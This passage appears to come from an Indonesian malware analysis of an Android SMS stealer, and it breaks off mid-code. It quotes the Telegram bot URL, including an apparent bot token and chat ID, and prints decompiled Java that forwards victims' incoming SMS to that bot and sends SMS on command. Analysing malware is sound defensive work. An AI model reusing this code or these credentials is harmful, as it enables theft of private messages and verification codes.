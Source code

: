 Function tersebut akan melakukan pencurian SMS dimana setiap adanya SMS yang masuk pada device korban maka SMS tersebut akan diteruskan melalui API Telegram dengan request seperti berikut

`https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= 𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐃𝐚𝐫𝐢  " + originatingAddress + ", 𝐈𝐬𝐢 𝐒𝐌𝐒 : " + replace`

dimana variable `originatingAddress` berisi nomor pengirim SMS yang diterima oleh korban, dan variable `replace` adalah variable yang berisi body SMS. 

Selanjutnya adalah file `SendSMS.java`, berikut potongan source code pada file ini

{% highlight java %}

public class SendSMS extends BroadcastReceiver {
    final String TAG = "demo";
    private final OkHttpClient client = new OkHttpClient();

    public void onReceive(Context context, Intent intent) {
        SmsMessage[] smsMessageArr;
        Object[] objArr;
        Bundle bundle;
        String str = " ";
        String str2 = ",";
        if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) {
            Bundle extras = intent.getExtras();
            if (extras != null) {
                try {
                    Object[] objArr2 = (Object[]) extras.get("pdus");
                    SmsMessage[] smsMessageArr2 = new SmsMessage[objArr2.length];
                    int i = 0;
                    while (i < smsMessageArr2.length) {
                        smsMessageArr2[i] = SmsMessage.createFromPdu((byte[]) objArr2[i]);
                        String originatingAddress = smsMessageArr2[i].getOriginatingAddress();
                        String messageBody = smsMessageArr2[i].getMessageBody();
                        String replace = messageBody.replace("&", "  ").replace("#", str).replace("?", str);
                        String str3 = messageBody;
                        String str4 = str3.split(str2)[0];
                        String str5 = str3.split(str2)[1];
                        String str6 = str3.split(str2)[2];
                        String str7 = str;
                        String str8 = str2;
                        int parseInt = Integer.parseInt(str4.toString());
                        if (parseInt == 55555) {
                            SmsManager.getDefault().sendTextMessage(str5, (String) null, str6, (PendingIntent) null, (PendingIntent) null);
                            int i2 = parseInt;
                            bundle = extras;
                            try {
                                String str9 = str5;
                                objArr = objArr2;
                                String str10 = str6;
                                Request build = new Request.Builder().url("https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= 𝐍𝐨𝐭𝐢𝐟𝐢𝐤𝐚𝐬𝐢 𝐒𝐚𝐝𝐚𝐩 𝐉𝐍𝐓 𝐒𝐌𝐒 𝐃𝐚𝐫𝐢 " + str9 + ", Isi Pesan : " + str10).build();
                                Request request = build;
                                this.client.newCall(build).enqueue(new Callback() {
                                    public void onFailure(Call call, IOException iOException) {
                                        iOException.printStackTrace();
                                    }

                                    public void onResponse(Call call, Response response) throws IOException {
                                        Log.d("demo", "OnResponse: Thread Id " + Thread.currentThread().getId());
                                        if (response.isSuccessful()) {
                                            response.body().string();
                                        }
                                    }